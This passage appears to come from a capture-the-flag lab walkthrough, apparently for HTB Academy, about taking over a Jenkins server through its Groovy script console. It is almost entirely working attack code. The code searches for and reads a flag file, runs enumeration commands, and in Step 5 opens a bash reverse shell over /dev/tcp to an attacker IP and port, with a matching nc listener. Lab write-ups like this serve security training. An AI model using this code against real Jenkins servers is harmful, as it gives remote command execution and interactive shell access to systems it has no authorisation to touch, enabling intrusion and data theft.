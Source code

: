 ```groovy
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "Flag content: $sout"

// Method 3: Directory exploration if flag location unknown
def exploreCmd = 'find /var/lib/jenkins3 -name "flag.txt" -type f'
def exploreSout = new StringBuffer(), exploreSerr = new StringBuffer()
def exploreProc = exploreCmd.execute()
exploreProc.consumeProcessOutput(exploreSout, exploreSerr)
exploreProc.waitForOrKill(2000)
println "Flag search results: $exploreSout"
```

#### Step 5: Alternative Reverse Shell Method (if needed)
```groovy
// Establish reverse shell for interactive access
def attackerIP = "10.10.14.15"  // Replace with your VPN IP
def port = 4444

// Setup listener first: nc -lvnp 4444

def reverseShell = ["/bin/bash", "-c", 
                   "exec 5<>/dev/tcp/$attackerIP/$port;cat <&5 | while read line; do \$line 2>&5 >&5; done"]

try {
    def proc = new ProcessBuilder(reverseShell).start()
    println "[+] Reverse shell initiated to $attackerIP:$port"
} catch (Exception e) {
    println "Reverse shell failed: ${e.getMessage()}"
}
```

#### Step 6: Expected Flag Retrieval
```bash
# From reverse shell or direct Groovy execution:
cat /var/lib/jenkins3/flag.txt

# HTB Academy Expected Output Format:
# Flag content: [FLAG_VALUE]

# HTB Answer: [FLAG_CONTENT] - Replace with actual discovered flag
```

#### Step 7: Verification and Documentation
```groovy
// Comprehensive system information for verification
def verificationCommands = [
    "whoami",
    "id", 
    "pwd",
    "ls -la /var/lib/jenkins3/",
    "cat /var/lib/jenkins3/flag.txt",
    "uname -a",
    "ps aux | grep jenkins"
]

verificationCommands.each { cmd ->
    println "\n[+] Command: $cmd"
    println "=" * 40
    def result = cmd.execute()
    result.waitFor()
    println result.text
}
```